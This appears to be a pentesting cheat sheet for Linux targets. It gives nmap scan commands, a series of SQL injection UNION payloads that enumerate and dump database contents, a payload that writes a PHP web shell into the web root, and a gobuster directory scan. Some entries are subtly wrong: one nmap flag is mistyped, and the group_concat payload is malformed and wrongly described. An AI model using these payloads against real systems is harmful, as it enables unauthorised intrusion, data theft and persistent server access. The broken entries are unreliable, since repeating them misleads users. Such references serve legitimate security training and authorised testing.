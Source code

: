 # Linux Pentesting Cheat Sheet

## User Access

### Port Scanning

#### TCP

- Look for open ports `nmap -p- -sS --open --min-rate 5000 -vvv -Pn -n TARGET_IP -N allPorts`

- Scan and extract service versions `nmap -p PORTS -sCV TARGET_IP -oN targeted`

#### UDP

- Look for open UDP ports `sudo nmap -p- -sU --min-rate 5000 -vvv -Pn -n TARGET_IP -oN allPortsUDP`

- Look for top UDP ports `sudo nmap --top-ports 100 -sU -Pn -n TARGET_IP -oN topUDP`

- Scan and extract service versions `sudo nmap -sUV -p PORTS -Pn -n TARGET_IP -oN udpScan`


### Web

#### SQL Injection
Insert SQL payloads in input fields to extract data from the database.

- `UNION SELECT 1,2,3 --`
    - To know the number of columns the query returns, increment the number until no error is returned.

- `UNION SELECT database() --`
    - To get the current database name.

- `UNION SELECT schema_name FROM information_schema.schemata --`
    - To get the database names.

- `UNION SELECT table_name FROM information_schema.tables WHERE table_schema='DATABASE_NAME' --`
    - To get the table names in the current database.

- `UNION SELECT column_name FROM information_schema.columns WHERE table_schema='DATABASE_NAME' AND table_name='TABLE_NAME' --`
    - To get the column names in a specific table.

- `UNION SELECT group_concat(column_name,0x3a,column_name) FROM 'DATABASE_NAME'.'TABLE_NAME' --`
    - To get the first 10 rows of data from specific columns in a specific table.

- `UNION SELECT "<?php ... ?>" INTO OUTFILE '/var/www/html/shell.php' --`
    - To write a web shell to the server (requires FILE privilege and writable directory).


#### Directory Listing

##### gobuster
- Scan for directories `gobuster dir -u http://TARGET_IP[:PORT] -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200`
